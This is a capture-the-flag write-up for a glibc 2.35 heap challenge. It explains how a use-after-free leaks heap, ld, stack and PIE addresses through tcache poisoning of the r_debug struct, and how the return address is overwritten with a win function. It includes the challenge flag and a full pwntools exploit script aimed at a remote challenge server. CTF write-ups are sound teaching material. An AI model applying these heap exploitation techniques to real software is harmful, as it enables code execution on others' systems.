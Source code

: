 # SLIME MACHINE REVENGE REVENGE
> Author: 堇姬Naup

tag: pwn, heap, gilbc 2.35

## description
Tsundere slime is the cutest!!! But it's not easy for you to win her heart.

## writeup
Same concept as the previous question.But it just give me ld base address.
My solution is struct `_r_debug` look like this
```c
struct r_debug
  { 
    int r_version;              /* Version number for this protocol. */

    struct link_map *r_map;     /* Head of the chain of loaded objects. */

    /* This is the address of a function internal to the run-time linker, that will always be called when the linker begins to map in a library or unmap it, and again when the mapping change is complete. The debugger can set a breakpoint at this address if it wants to notice shared object mapping changes. */
    ElfW(Addr) r_brk;
    enum
      { 
        /* This state value describes the mapping change taking place when the `r_brk' address is called. */
        RT_CONSISTENT,          /* Mapping change is complete. */
        RT_ADD,                 /* Beginning to add a new object. */
        RT_DELETE               /* Beginning to remove an object mapping. */
      } r_state;

    ElfW(Addr) r_ldbase;        /* Base address the linker is loaded at. */
  };
```

It has `r_map`. Struct `r_map` have PIE address and r_map-0x10(environ) have stack address.
First is use UAF leak heap base, and use it caculate all heap pointer.
Use tcache poisoning allocate fake chunk to `r_debug` and UAF read r_map address. And then allocate chunk to `r_map` read PIE address and stack address.
If I have PIE base, I can caculate accurately win function address
And malloc one chunk to return address and UAF write win function address. 
Choose exir and will RCE~

PS: Because of ld and libc base offset the same in the same environment, so use house of xxx write libc address may get RCE.

## flag
> NHNC{Tsundere_slime_is_not_that_easy_to_handle_is_it?}

## exploit
```py
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 23.146.248.196 41423")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)


### heap I/O
def create(size):
    sla(b'>>> ',b'1')
    sla(b'size:',str(size).encode())

def get(idx):
    sla(b'>>> ',b'2')
    sla(b'index: ', str(idx).encode())

def Set(idx,data):
    sla(b'>>> ',b'3')
    sla(b'index: ',str(idx).encode())
    sla(b'data: ',data)

def delete(idx):
    sla(b'>>> ',b'4')
    sla(b'index: ',str(idx).encode())

def EXIT():
    sla(b'>>> ',b'6')
### exploit

## get ld base
sla(b'>>> ',b'5')
rcu(b"gift: ")
ld_base = int(rcl().strip(),16)
r_debug = ld_base + 0x3b118 

## leak heap base
create(0x60) #0
create(0x60) #1
delete(0)
delete(1)
get(0)

rcu(b']: ')
leakheap = u64(rc(5).ljust(8,b'\x00'))
heapbase = leakheap << 12

chunk0_ptr_addr = heapbase + 0x290 - 0x10
chunk1_ptr_addr = heapbase + 0x300 - 0x10

ld_r_debug_addr = (r_debug - 0x8+0x10) ^ (chunk1_ptr_addr >> 12)
Set(1,p64(ld_r_debug_addr))

## leak r map address
create(0x60) #2
create(0x60) #3

get(3)
rcu(b']: ')
leak_r_map = u64(rc(6).ljust(8,b'\x00'))
environ = leak_r_map - 0x10

## leak stack
create(0x50) #4
create(0x50) #5
delete(4)
delete(5)

chunk4_ptr_addr = heapbase + 0x370 - 0x10
chunk5_ptr_addr = heapbase + 0x3d0 - 0x10

leak_environ_addr = (environ) ^ (chunk5_ptr_addr >> 12)
Set(5,p64(leak_environ_addr))
create(0x50) #6
create(0x50) #7

get(7)
rcu(b']: ')
leakstack = u64(rc(6).ljust(8,b'\x00'))

## leak pie
create(0x40) #8
create(0x40) #9
delete(8)
delete(9)

chunk8_ptr_addr = heapbase + 0x430 - 0x10
chunk9_ptr_addr = heapbase + 0x480 - 0x10
leak_r_map_addr = (leak_r_map+0x10) ^ (chunk9_ptr_addr >> 12)

Set(9,p64(leak_r_map_addr))
create(0x40) #10
create(0x40) #11
get(11)
rcu(b']: ')
leakPIE = u64(rc(6).ljust(8,b'\x00'))
PIE_base = leakPIE - 0x3d68

win_addr = PIE_base + 0x1681 + 0x5
ret_addr = leakstack-0x120

create(0x30) #12
create(0x30) #13
delete(12)
delete(13)

chunk12_ptr_addr = heapbase + 0x4d0 - 0x10
chunk13_ptr_addr = heapbase + 0x510 - 0x10

leak_retaddr = (ret_addr-0x8) ^ (chunk13_ptr_addr >> 12)
Set(13,p64(leak_retaddr))
create(0x30) #14
create(0x30) #15

Set(15,b'a'*0x8 + p64(win_addr))

EXIT()

### INFO
NAUPINFO("LEAKHEAP",hex(leakheap))
NAUPINFO("HEAPBASE",hex(heapbase))
NAUPINFO("LD BASE",hex(ld_base))
NAUPINFO("R_DEBUG",hex(r_debug))
NAUPINFO("fake_chunk",hex(ld_base + 0x3b118 -0x8))
NAUPINFO("LEAK R MAP",hex(leak_r_map))
NAUPINFO("LEAK STACK",hex(leakstack))
NAUPINFO("LEAK PIE ADDR",hex(leak_r_map+0x10))
NAUPINFO("LEAK PIE",hex(leakPIE))
NAUPINFO("PIEBASE",hex(PIE_base))
NAUPINFO("WIN ADDR",hex(win_addr))
NAUPINFO("LEAK ret_addr",hex(ret_addr))
### interactive
ita()
```
